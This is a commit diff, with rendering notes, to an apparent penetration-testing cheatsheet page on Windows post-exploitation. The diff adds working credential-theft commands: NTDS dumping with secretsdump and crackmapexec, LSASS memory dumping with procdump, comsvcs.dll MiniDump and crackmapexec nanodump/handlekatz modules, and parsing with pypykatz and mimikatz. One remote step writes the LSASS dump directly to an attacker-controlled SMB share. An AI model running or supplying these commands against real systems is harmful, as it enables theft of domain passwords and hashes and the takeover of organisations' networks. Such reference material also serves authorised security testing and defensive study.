

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Post_Exploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 284 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update Post_Exploitation.md
LSASS Dumping section created and more references

````diff
--- a/docs/Windows/Post_Exploitation.md
+++ b/docs/Windows/Post_Exploitation.md
@@ -10,8 +10,13 @@
 ### NTDS dumping
 
 #### Impacket-secretsdump directly
+```bash
+secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
 ```
-secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
+
+#### Crackmapexec
+```bash
+crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --ntds DC01.acme.corp
 ```
 
 #### ntdsutil[^2][^3]
@@ -24,29 +29,40 @@ wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds
 secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
 ```
 
-
-### Procdump & Mimikatz
-
-Useful if AV cannot be disabled and does not block procdump.exe
-
-1. On target machine
-    * Via procdump.exe
+### Dumping LSASS
+* Try to archive and compress before exiltrating.
+* After below, see [Data Exfiltration](../Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.html)
+* See *Parsing LSASS* below
+* Via procdump.exe
+    ```batch
+    procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
+    procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
+    ```
+* Via Task manager
+    * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
+* Rundll32 comsvcs ([get PID](../Useful_Commands/Windows.html#tasklist))
+    * Dump and exfiltrate later
         ```batch
-        procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
-        procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
+        C:\Windows\System32\rundll32.exe comsvcs.dll, MiniDump <pid> C:\Windows\temp\lsass.dmp full
         ```
-    * Via Task manager
-        * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
     * Remote LSASS dump[^4]
         * Run below on the target/victim machine
             ```batch
             net use x: \\smbserver_under_your_control\c$\
             powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
             ```
+* Crackmapexec
+    ```bash
+    crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" -M nanodump victimPC01.acme.corp
+    crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" -M handlekatz victimPC01.acme.corp
+    ```
 
-1. Retrieve file
-
-1. On local machine (Windows)
+### Parsing LSASS
+1. Kali
+    ```bash
+    pypykatz lsa -k ./kerberos minidump ./lsass.dmp
+    ```
+1. Windows
     ```batch
     mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
     ```
@@ -61,7 +77,7 @@ Useful if AV cannot be disabled and does not block procdump.exe
     ```
 
 1. Retrieve the files
-    * See [Data Exfiltration](../../#data-exfiltration)
+    * See [Data Exfiltration](../Network/Data_Exfiltration/Windows-Linux-Curl-SimpleHTTPServerwithUpload.html)
 
 1. On local machine (~Kali)
     ```bash
````
